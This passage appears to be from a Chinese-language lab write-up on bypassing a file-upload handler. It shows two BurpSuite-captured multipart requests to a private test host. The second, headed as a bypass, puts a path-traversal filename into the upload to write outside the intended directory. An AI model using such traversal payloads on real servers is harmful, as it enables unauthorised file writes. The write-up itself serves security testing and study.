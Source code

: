 随机选择一个文件上传使用 **BurpSuite** 截断数据包进行测试

```http
POST /q HTTP/1.1
Host: 192.168.127.1:8080
Content-Length: 213
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3AaOArHsDAwbStyx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundary3AaOArHsDAwbStyx
Content-Disposition: form-data; name="multipartFile"; filename="a.txt"
Content-Type: application/octet-stream

Hello World
------WebKitFormBoundary3AaOArHsDAwbStyx--
```

### 绕过

```php
POST /q HTTP/1.1
Host: 192.168.127.1:8080
Content-Length: 224
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3AaOArHsDAwbStyx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundary3AaOArHsDAwbStyx
Content-Disposition: form-data; name="multipartFile"; filename="../..\\..\\a.txt"
Content-Type: application/octet-stream

Hello World
------WebKitFormBoundary3AaOArHsDAwbStyx--

```
